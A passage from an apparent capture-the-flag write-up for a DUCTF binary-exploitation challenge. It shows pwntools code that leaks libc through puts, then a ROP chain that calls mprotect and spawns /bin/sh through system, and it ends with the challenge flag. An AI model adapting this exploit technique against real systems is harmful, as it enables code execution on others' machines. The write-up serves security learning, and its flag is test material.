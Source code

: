 ```python
l = io.recvuntil(b"research").split(b"atomic ")[0][-7:-1]
puts_addr = unpack(l,'all')
log.info(f"puts : 0x{puts_addr:x}")
libc = exe.libc
libc.address = puts_addr - libc.sym.puts
log.info((f"libc : 0x{libc.address:x}"))
```
- Once we go back to main and we provide a name, because of the pivoting, the `stack` still overlaps with `username`. This allows us to rop directly !
- Note that `system`  writes some data on the stack, and happens to reach a read-only page in our specific case
- To accomodate for it, I first returned to `mprotect` to set that memory page as `rwx` *(`rw` would have been enough)*
```C
pop_rdi = libc.address + 0x2a3e5
pop_rsi = libc.address + 0xda97d
pop_rdx_rbx = libc.address + 0x90529

m_addr = 0x409000
m_len = 0x1000
prot = 0x7
rop_mprotect = p64(pop_rdi) + p64(m_addr) + p64(pop_rsi) + p64(m_len) + p64(pop_rdx_rbx) + p64(prot)*2 + p64(libc.sym.mprotect)
rop2 = rop_mprotect + p64(pop_rdi_rbp) +p64(next(libc.search(b'/bin/sh\x00')))*2 + p64(ret) + p64(libc.sym.system)
prompt(b"a"*16 +rop2)
io.interactive()
```
## **FLAG**
```
DUCTF{wH0_KnEw_Th4T_HAsHm4ps_4nD_nUCle4r_Fi5S10n_HAd_s0meTHiNg_1n_c0MmoN}
```
A very good pun for a very cool challenge 👏



